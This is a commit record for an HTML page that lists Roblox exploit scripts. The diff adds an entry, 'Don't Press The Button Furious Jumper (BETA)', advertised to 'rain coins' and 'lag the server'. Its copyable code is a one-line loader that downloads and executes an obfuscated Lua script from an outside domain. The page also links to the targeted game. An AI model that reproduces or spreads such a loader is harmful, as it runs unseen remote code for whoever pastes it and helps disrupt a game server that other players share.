

Before and after one commit to worspaces/lalalalalla, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 2477-3471 px from the top of the page at 96% size. Before the commit the page ends 3427 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -437,14 +437,14 @@
 
 
 <div class="script-item new-style">
-    <div class="script-header">a</div>
-    <div class="subheader">a</div>
-    <div class="script-code">a
+    <div class="script-header">NEW Don't Press The Button Furious Jumper (BETA)</div>
+    <div class="subheader">Rain coins, and lag the server! (SERVERSIDED)</div>
+    <div class="script-code">loadstring(game:HttpGet("https://getorbs.us.to/DPTBFJ-obfuscated.lua"))()
     </div>
     <div class="button-container">
         <button class="copy-button new-style" onclick="copyToClipboard(this)">Copy</button>
         <!-- Optional: Add a button to join the game -->
-        <button class="join-game-button new-style" onclick="joinGame('https://www.roblox.com/games/130491334574811/Free-Donation-Spinner')">Game link</button>
+        <button class="join-game-button new-style" onclick="joinGame('https://www.roblox.com/games/9075479275/NEW-Dont-Press-The-Button-Furious-Jumper-BETA')">Game link</button>
     </div>
 </div>
 
```
